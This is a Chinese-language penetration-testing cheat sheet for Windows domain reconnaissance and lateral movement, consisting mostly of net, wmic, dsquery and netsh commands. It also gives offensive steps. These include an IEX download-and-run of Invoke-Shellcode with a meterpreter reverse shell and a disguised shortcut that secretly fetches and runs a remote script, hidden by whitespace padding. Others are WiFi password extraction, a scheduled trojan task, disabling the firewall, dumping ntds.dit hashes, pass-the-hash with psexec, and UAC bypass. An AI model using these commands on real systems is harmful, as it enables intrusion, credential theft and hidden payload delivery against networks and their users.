## 常见命令

### 基本命令

```
net group /domain                       //获得所有域用户组列表
net group qq_group /domain              //显示域中qq_group组的成员
net group qq_group /del /domain         //删除域中qq_group组
net group qq_group qq /del /domain      //删除域内qq_group 群组中的成员QQ
net group qq_group /add /domain         //增加域中的群组
net group 'domain admins' /domain       //获得域管理员列表
net group 'enterprise admins' /domain    //获得企业管理员列表
net localgroup administrators /domain   //获取域内置administrators组用（enterprise admins、domain admins）
net group 'domain controllers' /domain   //获得域控制器列表
net group 'domain computers' /domain    //获得所有域成员计算机列表
net user /domain                       //获得所有域用户列表
net user someuser /domain              //获得指定账户someuser的详细信息
net accounts /domain               //获得域密码策略设置，密码长短，错误锁定等信息
nei view /domain                  //查询有几个域, 查询域列表
net view /domain:testdomain       //查看 testdomain域中的计算机列表
nltest /domain_trusts             //获取域信任信息
net user domain-admin /domain     //查看管理员登陆时间，密码过期时间，是否有登陆脚本，组分配等信息
net config Workstation         //查询机器属于哪个域
net time /domian               //查询主域服务器的时间
echo %logonserver%              //查看登陆到这台服务器的计算机名
net time  \\192.168.1.1         //查询远程共享主机192.168.1.1的时间
net use \\IP\ipc$ password /user:username@domain     //ipc$域内连接
net  view  \\dc2.backlion.com         //查看域控共享情况
dir \\dc2.backlion.com\SYSVOL /s /a > sysvol.txt  //列出sysvol日志记录
xcopy \\dc2.backlion.com\sysvol.txt sysvol.txt  /i  /e  /c//远程拷贝到本地sysvol日志
net user  /domain  bk bk123                 //修改域内用户密码，需要管理员权限
net  localgroup  administartors   SEZKL\backlion  /add     //将SEZKL域中的用户backlion添加到administrators组中
mstsc /admin                 //远程桌面登录到console会话解决hash无法抓出问题
gpupdate/force                  //更新域策略
psexec  \\192.168.1.3  -u administrator  -p  bk1234 -c  gsecdump.exe  -u
  //从域服务器密码存储文件windows/ntds/ntds.dit导出hash值出来
gsecdump  -a        //获取域登管理员登录过得hash值，这里gescdump为第三方导出AD域的hash值
tasklist /S ip /U domain\username /P /V    //查看远程计算机进程列
```

### 基本渗透命令

```
ipconfig/all    //查看IP地址
ipconfig /release  //释放地址
ipconfig /renew 重新获取Ip地址
whoami    //查询账号所属权限
whoami/all  //查看sid值
systeminfo  //查询系统以及补丁信息
tasklist /svc   //查看进程
taskkill /im 进程名称(cmd) //结束进程
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
wmic qfe  get hotfixid    //查看已安装过得补丁，这个很实用
wmic qfe list full /format:htable > hotfixes.htm  //详细的补丁安装
wmic  qfe      //查询补丁信息以及微软提供的下载地址
ping hostname(主机名）   //显示该机器名的IP
net start   //查看当前运行的服务
net user      //查看本地组的用户
net localhroup administrators   //查看本机管理员组有哪些用户
net use      //查看会话
net session     //查看当前会话
net share       //查看SMB指向的路径[即共享]
wmic share get name,path   //查看SMB指向的路径
wmic nteventlog get path,filename,writeable //查询系统日志文件存储位置
net use \\IP\ipc$  password  /user:username      //建立IPC会话（工作组模式）
net use  z:  \\192.168.1.1      //建立映射到本机Z盘
net time \\172.16.16.2        //查询共享主机的是
at \\172.16.16.2 13:50 c:\windows\2009.exe      //在共享主机上执行
netstat  -ano      //查看开放的端口
netstat -an | find “3389”   //找到3389端口
net accounts      //查看本地密码策略
nbtstat –A ip      //netbiso查询
net view      //查看机器注释或许能得到当前活动状态的机器列表，如果禁用netbios就查看不出来
echo %PROCESSOR_ARCHITECTURE%        //查看系统是32还是64位  
set                              //查看系统环境设置变量
net start                     //查看当前运行的服务
wmic service list brief             //查看进程服务
wmic process list brief         //查看进程
wmic startup list brief       //查看启动程序信息
wmic product list brief           //查看安装程序和版本信息（漏洞利用线索）
wmic startup list full         //识别开机启动的程序
wmic process where(description='mysqld.exe') >>mysql.log  //获取软件安装路径
for /f 'skip=9 tokens=1,2 delims=:' %i in ('netsh wlan showprofiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %jkey=clear
//一键获取wifi密码
if defined PSModulePath (echo 支持powershell) else (echo 不支持powershell)
//查看是否支持posershell
qwinsta                       //查看登录情况
schtasks.exe  /Create /RU'SYSTEM' /SC MINUTE /MO 45 /TN FIREWALL /TR 'c:/muma.ex    e' /ED 2017/4/7  //添加计划任务
set KB2829361=MS13-046&set KB2830290=MS13-046&setKB2667440=MS12-020&set KB2667402=MS12-020&set KB3124280=MS16-016&setKB3077657=MS15-077&set KB3045171=MS15-051&setKB2592799=MS11-080&set KB952004=MS09-012 PR&set KB956572=MS09-012 巴西烤肉&set KB970483=MS09-020 iis6&set KB2124261=MS10-065 ii7&setKB2271195=MS10-065 ii7&systeminfo>a.txt&(for %i in (KB952004 KB956572KB2393802 KB2503665 KB2592799 KB2621440 KB2160329 KB970483 KB2124261 KB977165KB958644 KB2667402 KB2667440 KB2830290 KB2829361 KB3045171 KB3077657 KB3124280)do @type a.txt|@find /i '%i'||@echo %%i% Not Installed!)&del /f/q /a a.txt
//windows未打补丁情况
REG query HKCU  /v 'pwd' /s  //获取保存到注册表中的密码
```

### 内网网络结常用命令

```
tracert IP    //路由跟踪
route print    //打印路由表
arp -a          //列出本网段内所有活跃的IP地址
arp -s （ip + mac）//绑定mac与ip地址
arp -d （ip + mac） //解绑mac与ip地址
nbtscan -r 192.168.16.0/24      //通过小工具nbtscan扫描整个网络
netsh firewall show config     //查看防火墙策略
netsh firewall show state     //查看防火墙策略
for /l %i in (1,1,255) do @ping 10.0.0.%i -w 1 -n 1 | find /i'ttl'   //批量扫描内网存活主机
windows自带端口转发：
netsh interface ipv6 install  //首先安装IPV6（xp、2003下IPV6必须安装，否则端口转发不可用！）
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=22connectaddress=1.1.1.1 connectport=22  //将本机22到1.1.1.1的22
netsh interface portproxy add v4tov4 listenaddress=192.168.193.1listenport=22 connectaddress=8.8.8.8 connectport=22
netsh interface portproxy add v4tov4 listenaddress=192.168.193.1listenport=22 connectaddress=www.baidu.com connectport=22
netsh interface portproxy show all // 查看转发配置
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0listenport=22 //删除配置
netsh firewall set portopening protocol=tcp port=22 name=Forwardmode=enable scope=all profile=all  //添加防火墙规则，允许连接22：
```

关闭防火墙
```
chcp 65001
netsh advfirewall set allprofiles state off
```

### 敏感数据和目录

```
dir /b/s config.*              //查看所在目录所有config.为前缀的文件
findstr /si password *.xml *.ini *.txt    //查看后缀名文件中含有password关键字的文件
findstr /si login *.xml *.ini *.txt    //查看后缀名文件中含有login关键字的文件
copy con 创建命令：
copy con  ftp.bat     //创建ftp.bat批处理，然后输入ifconfig等命令，按ctr+z退出，并创建成功
copy con  test.vbs    //创建test.vbs脚本，输入脚本后，按ctr+z退出，并创建成功
```

### dsquery

```
dsquery user domainroot -limit 65535 && net user /domain    //列出该域内所有用户名
dsquery server -domain super.com | dsget server -dnsname -site    //搜索域内所有域控制器并显示他们的DNS主机名和站点名称
dsquery contact    //寻找目录中的联系人
dsquery subnet     //列出该域内网段划分
query user             //查询那些用户在线
dsquery group && net group /domain     //列出该域内分组
dsquery ou                             //列出该域内组织单位
dsquery server && net time /domain      //列出该域内域控制器
dsquery site -o rdn                 //搜索域中所有站点的名称
dsquery group dc=super,dc=com |more   //搜索在DC=SUPER,DC=COM 域中的所有组
psloggedon.exe                        //查询那台主机和用户登录到该主机上
netsess.exe   //192.168.1.115         //远程主机上无需管理员权限,查询到主机名和用户
reg query 'HKEY_CURRENT_USER\SOFTWARE\MICROSOFT\TERMINAL SERVERCLIENT\DEFAULT' //获取最近mstsc登录的记录
dsquery server –domain Yahoo.com | dsget server–dnsname –site //搜索域内域控制器的DNS主机名和站点名
dsquery computer domainroot –name *-xp –limit 10 //搜索域内以-xp结尾的机器10台
dsquery user domainroot –name admin* -limit //搜索域内以admin开头的用户10个
```
### DOS常用快捷命令

```
mspaint　　画图工具
calc　　计算器
notepad　　记事本
taskmgr　　任务管理器
osk　　打开屏幕键盘
gpedit.msc　　组策略
services.msc　　本地服务
compmgmt.msc　　计算机管理
devmgmt.msc　　设备管理器
winver　　查看系统版本
magnify　　放大镜实用程序
eventvwr　　事件查看器
Regedit　　打开注册表
resmon　　资源监视器
WMIC BIOS get releasedate　　查看电脑生产日期
mstsc -f　　远程连接（可以全屏）
```

### 进程等信息查询

```
tasklist /V                                                      ----- 查看进程[显示对应用户]
tasklist /S ip /U domain\username /P /V             ----- 查看远程计算机进程列表
qprocess *                                                    ----- 类似tasklist
qprocess /SERVER:IP                                      ----- 远程查看计算机进程列表
nslookup –qt-MX Yahoo.com                           ----- 查看邮件服务器
whoami /all                                                   ----- 查询当前用户权限等
set                                                              ----- 查看系统环境变量
systeminfo                                                    ----- 查看系统信息
qwinsta                                                        ----- 查看登录情况
qwinsta /SERVER:IP                                       ----- 查看远程登录情况
fsutil fsinfo drives                                           ----- 查看所有盘符
gpupdate /force                                            ----- 更新域策略
```

### wmix 等信息

```
wmic bios                                                     ----- 查看bios信息
wmic qfe                                                      ----- 查看补丁信息
wmic qfe get hotfixid                                     ----- 查看补丁-Patch号
wmic startup                                                 ----- 查看启动项
wmic service                                                 ----- 查看服务
wmic os                                                       ----- 查看OS信息
wmic process get caption,executablepath,commandline
wmic process call create “process_name” (executes a program)
wmic process where name=”process_name” call terminate (terminates program)
wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size,
volumeserialnumber (hard drive information)
wmic useraccount (usernames, sid, and various security related goodies)
wmic useraccount get /ALL
wmic share get /ALL (you can use ? for gets help ! )
wmic startup list full (this can be a huge list!!!)
wmic /node:"hostname" bios get serialnumber (this can be great for finding warranty info about target)
```

## 一些技巧

### PowerShell 无权限执行脚本问题



电脑上启动 Window Powershell 时，默认情况下，其执行策略可能是Restricted。
Restricted策略是不允许任何脚本执行的。

如要查询当前执行策略 其命令

```
get-executionpolicy     //查看当前执行策略
```

更改执行策略 `remotesigned`，在Powershell中键入（最好用管理员权限执行）

```
set-executionpolicy remotesigned    //修改执行策略为remotesigned  
```



直接默认yes就可修改成功

> Restricted: 脚本不能运行(默认设置)
RemoteSigned: 在本地创建的脚本可以运行，网上下载的脚本无法运行(拥有数字证书签名例外)
AllSigned: 仅当脚本由受信任的发布者签名时才能运行
Unrestricted: 允许所有脚本运行
Set-ExecutionPolicy <Policy name>  设置执行策略


### PowerCat 模块

### PowerSploit 模块

IEX (New-Object Net.WebClient).DownloadString("http://IP Adress/CodeExecution/Invoke--Shellcode.ps1")；

Invoke-Shellcode -Payload windows/meterpreter/reverse_https –Lhost IP_Address -Lport 4444 -Force

### 伪造快捷方式

新建快捷方式，设置目标路径为：

```
C:\Windows\System32\rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("powershell c:\windows\system32\mstsc.exe IEX (New-Object Net.WebClient).DownloadString("IP_Address/rlink.ps1")",0,true);self.close();
```

这个快捷方式的功能就是运行mstsc程序同时下载rlink.ps1文件执行。为了避免被发现，最后在程序名和参数之间添加一个260个空白字符，这样可以避免在快捷方式上右键属性被发现异常。



### IPC连接与文件操作

建立ipc连接
net use \\[ip] /u:[域名][用户] [密码]
例：net use \\192.168.83.10 /u:TEST\Administrator Iamtest123


net use 查看建立的ipc连接


net use \\192.168.83.10 /de /y 删除ipc连接


net view \\192.168.83.10 查看共享了哪些磁盘


dir \\192.168.83.10\c$\ 查看c盘目录


copy xxxx \\192.168.83.2\c$\ 上传文件到c盘



copy \\192.168.83.2\c$\xxx c:\ 下载文件到c盘


### 利用schtasks计划任务执行命令(不需要先创立ipc连接)

创建计划任务

```
schtasks /create /tn 任务名 /U 域\域用户 /P 域用户密码 /tr 执行的命令或bat路径 /sc ONSTART /s 域机子IP /RU system
```

执行计划任务

```
schtasks /run /tn 任务名 /s 域机子IP /U 域\域用户 /P 域用户密码
```

删除计划任务

```
schtasks /F /delete /tn 任务名 /s 域机子IP /U 域\域用户 /P 域用户密码
```



### PsExec

下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec
https://github.com/Al1ex/smbexec/releases
首先需要创建ipc连接
执行命令PsExec.exe \\192.168.83.10 -s cmd.exe -accepteula，然后等待一段时间，弹回shell



### hash传递

另外我上篇抓取密码的文章中提到可以抓取密码的hash，我们可以通过该工具实现NTLM hash的传递
下载地址：https://github.com/SecureAuthCorp/impacket
上面的psexec.exe是微软的，并没有hash传递的功能
将Impacket中examples目录下的psexec.py用pyinstaller编译一下（编译完后有概率会被杀掉），生成psexec.exe文件
上传到服务器，使用命令：`psexec.exe -hashes :xxxxxxxxxxxxxx TEST/Administrator@192.168.83.10`获得域控管理员的shell



### bypass uac

exploit/windows/local/bypassuac

MSF中Bypassuac模块的使用前提有两个，一是系统当前用户必须在管理员组中，二是用户账户控制程序UAC设置为默认，即 “仅在程序试图更改我的计算机时通知我。